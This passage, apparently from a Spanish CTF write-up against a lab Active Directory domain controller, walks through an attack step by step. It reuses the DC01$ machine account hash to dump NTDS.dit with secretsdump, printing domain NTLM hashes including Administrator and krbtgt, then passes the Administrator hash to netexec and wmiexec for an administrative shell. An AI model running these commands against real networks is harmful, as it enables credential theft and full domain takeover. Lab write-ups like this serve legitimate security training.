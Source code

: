 Pero al probar este hash con `netexec` vemos que no es válido. Esto es porque el SAM que hemos dumpeado es de las cuentas locales de la máquina, no del dominio, ya que en entorno de Directorio Activo estas se almacenan en el NTDS.dit

```console
$ nxc smb 192.168.182.4 -u 'Administrator' -H 209c6174da490caeb422f3fa5a7ae634
SMB         192.168.182.4   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         192.168.182.4   445    DC01             [-] SOUPEDECODE.LOCAL\Administrator:209c6174da490caeb422f3fa5a7ae634 STATUS_LOGON_FAILURE
```

## Dumping NTDS.dit -> Abusing Local Machine Credentials Reuse
También vemos que el hash es válido para la cuenta del equipo.
```console
$ nxc smb 192.168.182.4 -u 'DC01$' -H af48f2010d257a514430b66fa469a554
SMB         192.168.182.4   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         192.168.182.4   445    DC01             [+] SOUPEDECODE.LOCAL\DC01$:af48f2010d257a514430b66fa469a554
```

Entonces con `impacket-secretsdump` podemos intentar dumpear el NTDS.dit pero utilizando la cuenta local del sistema ya que esta si que se está reutilizando la credencial.

Y no os asustéis porque os va a dumpear todos los hashes de todos los usuarios del dominio, pero obviamente nos interesa el del administrador.
```console
$ secretsdump.py SOUPEDECODE.LOCAL/DC01\$@192.168.182.4 -hashes :af48f2010d257a514
430b66fa469a554                               
Impacket v0.12.0.dev1+20240819.165705.f98c9870 - Copyright 2023 Fortra
                      
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8982babd4da89d33210779a6c5b078bd:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:fb9d84e61e78c26063aced3bf9398ef0:::
soupedecode.local\bmark0:1103:aad3b435b51404eeaad3b435b51404ee:d72c66e955a6dc0fe5e76d205a6
30b15:::
```

Y ahora sí que `netexec` nos reporta que podemos ganar una consola interactiva como administrador.
```console
$ nxc smb 192.168.182.4 -u Administrator -H 8982babd4da89d33210779a6c5b078bd
SMB         192.168.182.4   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         192.168.182.4   445    DC01             [+] SOUPEDECODE.LOCAL\Administrator:8982babd4da89d33210779a6c5b078bd (Pwn3d!)
```

Y para terminar, con `wmiexec` podemos ganar una consola interactiva como administrador.
```console
$ wmiexec.py -hashes :8982babd4da89d33210779a6c5b078bd Administrator@192.168.182.4Impacket v0.12.0.dev1+20240819.165705.f98c9870 - Copyright 2023 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
soupedecode\administrator
```
